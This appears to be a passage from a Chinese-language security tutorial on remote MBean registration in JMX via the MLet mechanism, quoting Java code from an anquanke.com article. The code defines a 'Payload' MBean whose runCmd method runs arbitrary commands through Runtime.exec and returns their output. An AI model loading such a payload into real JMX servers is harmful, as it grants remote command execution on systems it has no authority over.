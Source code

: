 ### 远程MBean注册

上面的的demo展示的是MBean与JMX Server在同一主机上，jmx还提供了一种机制，可以将其他主机上的MBean绑定到别的MBean Server上，着需要用到另外一个文件mlet。我们一起来看一下实现方法把：

注： 以下代码引用自  https://www.anquanke.com/post/id/194126

```java
public interface PayloadMBean {

    public String runCmd(String cmd) throws IOException, InterruptedException;

}
public class Payload implements PayloadMBean {

    @Override

    public String runCmd(String cmd) throws IOException, InterruptedException {



        Runtime runtime = Runtime.getRuntime();

        Process process = runtime.exec(cmd);

        BufferedReader stdInput = new BufferedReader(new InputStreamReader(process.getInputStream()));

        BufferedReader stdError = new BufferedReader(new InputStreamReader(process.getErrorStream()));



        String stdout_data = "";

        String strtmp;

        while ((strtmp = stdInput.readLine()) != null) {

            stdout_data += strtmp + "\n";

        }

        while ((strtmp = stdError.readLine()) != null) {

            stdout_data += strtmp + "\n";

        }

        process.waitFor();

        return stdout_data;

    }

}
```
